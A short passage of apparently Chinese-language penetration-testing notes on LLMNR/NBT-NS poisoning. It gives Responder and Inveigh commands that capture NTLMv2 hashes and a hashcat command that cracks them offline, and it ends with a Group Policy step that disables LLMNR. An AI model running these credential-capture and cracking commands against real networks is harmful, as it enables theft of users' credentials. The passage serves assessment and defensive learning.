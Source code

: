 1.工具:responder

确保以下端口可用

```shell-session
UDP 137, UDP 138, UDP 53, UDP/TCP 389,TCP 1433, UDP 1434, TCP 80, TCP 135, TCP 139, TCP 445, TCP 21, TCP 3141,TCP 25, TCP 110, TCP 587, TCP 3128, Multicast UDP 5355 and 5353
```

```
responder -I ens224 -A
```

保存的结果文件在/usr/share/responder/logs

2.离线破解

```shell-session
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt 
```

### 6.2.2 Windows

```
Import-Module .\Inveigh.ps1 
(Get-Command Invoke-Inveigh).Parameters
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

```
.\Inveigh.exe
GET NTLMV2USERNAMES
GET NTLMV2UNIQUE
```

### 6.2.3 remediation:

转到“计算机配置 > 管理模板 --> 网络 --> DNS 客户端”并启用“关闭多播名称解析”来禁用组策略中的 LLMNR。

![image-20250603185446399](pictures/image-20250603185446399.png)
